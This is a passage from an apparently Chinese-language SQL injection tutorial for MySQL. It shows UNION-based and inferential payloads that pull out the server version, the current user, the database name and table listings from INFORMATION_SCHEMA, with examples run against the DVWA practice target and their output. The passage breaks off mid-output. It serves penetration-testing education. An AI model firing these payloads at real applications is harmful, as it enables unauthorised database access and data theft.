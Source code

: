 ```
与之有相同结果的还有：
- 盲注：```1 AND 1=0 UNION SELECT @@version /*```
- 推断注入：```1 AND @@version like '4.0%'```。响应将包含类似```5.0.22-log```的行。

例如DVWA靶机可执行下列语句：
```adf' or 1=1 union select version(),'1 ``` 或 ```adf' or 1=1 union select @@version,'1 ```
结果如下图：
<img src="images/07/mysqli01.png" width="480" >


###  登录用户

MySQL Server依赖两种用户。
1.USER()：连接到MySQL服务器的用户。
2.CURRENT_USER()：正在执行查询的内部用户。

1和2之间有一些区别。主要的区别在于，匿名用户可以连接（如果允许）任何名称，但MySQL内部用户是一个空名称（''）。另一个区别是，如果未在其他地方声明，则存储过程或存储函数将作为创建者用户执行。可以使用来知道CURRENT_USER。

- In band injection: ```1 AND 1=0 UNION SELECT USER()```

- Inferential injection: ```1 AND USER() like 'root%'```

结果可能包含：```user@hostname```

### 获取数据库名

mysql有一个内置的函数：```database()```

- In band injection:```1 AND 1=0 UNION SELECT DATABASE()```
- Inferential injection:```1 AND DATABASE() like 'db%'```

结果为数据库名。

### INFOMATION_SCHEMA
mysql 5.0之后，有了 INFOMATION_SCHEMA ，它可以获取数据中所有的数据库、表、列、存储过程、函数。

|INFOMATION_SCHEMA中的表|描述|
|-|-|
|SCHEMATA	|有 SELECT_priv 权的用户所有的数据库|
|SCHEMA_PRIVILEGES	|The privileges the user has for each DB|
|TABLES	|All tables the user has (at least) SELECT_priv|
|TABLE_PRIVILEGES	|The privileges the user has for each table|
|COLUMNS	|All columns the user has (at least) SELECT_priv|
|COLUMN_PRIVILEGES	|The privileges the user has for each column|
|VIEWS	|All columns the user has (at least) SELECT_priv|
|ROUTINES	|Procedures and functions (needs EXECUTE_priv)|
|TRIGGERS	|Triggers (needs INSERT_priv)|
|USER_PRIVILEGES	|Privileges connected User has|

上述信息可以通过SQL注入来实现。

例如dvwa中盲注sql页例子：```1' union select table_name ,1 from information_schema.tables where '1'='1```
结果如下：

```
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: admin
Surname: admin
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1
First name: CHARACTER_SETS
Surname: 1
ID: 1' union select table_name ,1 from information_schema.tables where '1'='1